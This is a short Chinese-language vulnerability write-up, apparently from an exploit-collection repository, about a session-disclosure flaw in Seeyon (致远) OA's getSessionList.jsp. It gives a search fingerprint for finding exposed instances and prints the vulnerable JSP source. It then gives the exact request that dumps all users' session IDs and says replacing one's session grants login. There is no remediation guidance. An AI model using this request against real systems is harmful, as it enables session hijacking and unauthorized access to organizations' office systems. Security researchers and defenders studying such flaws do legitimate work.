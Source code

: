 # 致远OA getSessionList.jsp Session泄漏漏洞

# 致远OA getSessionList.jsp Session泄漏漏洞

## 漏洞描述

通过使用存在漏洞的请求时，会回显部分用户的Session值，导致出现任意登录的情况

## 漏洞影响

未知

## 网络测绘

```
app="致远互联-OA"
```

## 漏洞复现

出现漏洞的源码

```
<%@ page contentType="text/html;charset=GBK"%>
<%@ page session= "false" %>
<%@ page import="net.btdz.oa.ext.https.*"%>
<%
    String reqType = request.getParameter("cmd");
    String outXML = "";
    boolean allowHttps = true;
    if("allowHttps".equalsIgnoreCase(reqType)){
        //add code to judge whether it allow https or not
        allowHttps = FetchSessionList.checkHttps();
        if (allowHttps) response.setHeader("AllowHttps","1");
    }
    if("getAll".equalsIgnoreCase(reqType)){
        outXML = FetchSessionList.getXMLAll();
    }
    else if("getSingle".equalsIgnoreCase(reqType)){
        String sessionId = request.getParameter("ssid");
        if(sessionId != null){
            outXML = FetchSessionList.getXMLBySessionId(sessionId);
        }
    }
    else{
        outXML += "<?xml version=\"1.0\" encoding=\"GB2312\"?>\r\n";
        outXML += "<SessionList>\r\n";
//        outXML += "<Session>\r\n";
//        outXML += "</Session>\r\n";
        outXML += "</SessionList>\r\n";
    }
    out.println(outXML);
%>
```

从上面的代码可知，当cmd参数为getAll时，便可获取到所有用户的SessionID ,请求

```
/yyoa/ext/https/getSessionList.jsp?cmd=getAll
```

回显Session则存在漏洞

![image-20220520153805805](/images/202205201538850.png)

通过替换 Session即可登陆系统

